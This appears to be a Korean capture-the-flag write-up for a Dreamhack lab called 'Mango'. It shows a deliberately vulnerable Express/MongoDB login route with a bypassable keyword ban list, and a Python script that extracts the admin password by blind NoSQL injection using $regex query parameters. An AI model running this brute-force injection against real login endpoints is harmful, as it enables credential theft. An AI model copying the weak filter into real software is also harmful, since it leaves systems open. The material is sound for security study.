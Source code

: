 ```yaml
---
title: "[2025-07-14] Mango"
excerpt: "NoSQL Injection"

categories:
  - Problem
tags:
  - [NoSQL Injection]

permalink: /Problem/[2025-07-14] Mango/

toc: true
toc_sticky: true

date: 2025-07-14
last_modified_at: 2025-07-14
---
```


## 🦥 본문

```jsx
const express = require('express');
const app = express();

const mongoose = require('mongoose');
mongoose.connect('mongodb://localhost/main', { useNewUrlParser: true, useUnifiedTopology: true });
const db = mongoose.connection;

// flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}
const BAN = ['admin', 'dh', 'admi'];

filter = function(data){
    const dump = JSON.stringify(data).toLowerCase();
    var flag = false;
    BAN.forEach(function(word){
        if(dump.indexOf(word)!=-1) flag = true;
    });
    return flag;
}

app.get('/login', function(req, res) {
    if(filter(req.query)){
        res.send('filter');
        return;
    }
    const {uid, upw} = req.query;

    db.collection('user').findOne({
        'uid': uid,
        'upw': upw,
    }, function(err, result){
        if (err){
            res.send('err');
        }else if(result){
            res.send(result['uid']);
        }else{
            res.send('undefined');
        }
    })
});

app.get('/', function(req, res) {
    res.send('/login?uid=guest&upw=guest');
});

app.listen(8000, '0.0.0.0');

```

- 문제의 flag는 admin의 비밀번호이다.
- Blind NoSQLi를 통해 비밀번호를 알아낸다
    - 비밀번호가 정규식에 맞으면 admin이 나타나고 아니면 undefined가 나타난다
    - 아이디 admin 자체는 필터링하므로 dmin이나 ad.in 같은 방식을 사용한다

### 풀이

```markdown
{% raw %}
```python
import requests, string

HOST = 'http://host3.dreamhack.games:20622'
ALPHANUMERIC = string.digits + string.ascii_letters
SUCCESS = 'admin'

flag = ''

for i in range(32):
    for ch in ALPHANUMERIC:
        response = requests.get(f'{HOST}/login?uid[$regex]=dmin&upw[$regex]=D.{{{flag}{ch}')
        if response.text == SUCCESS:
            flag += ch
            break
    print(f'FLAG: DH{{{flag}}}')
```
{% endraw %}
```

해당 코드로 브루트 포싱을 해서 플래그를 얻을 수  있는 간단한 문제였다.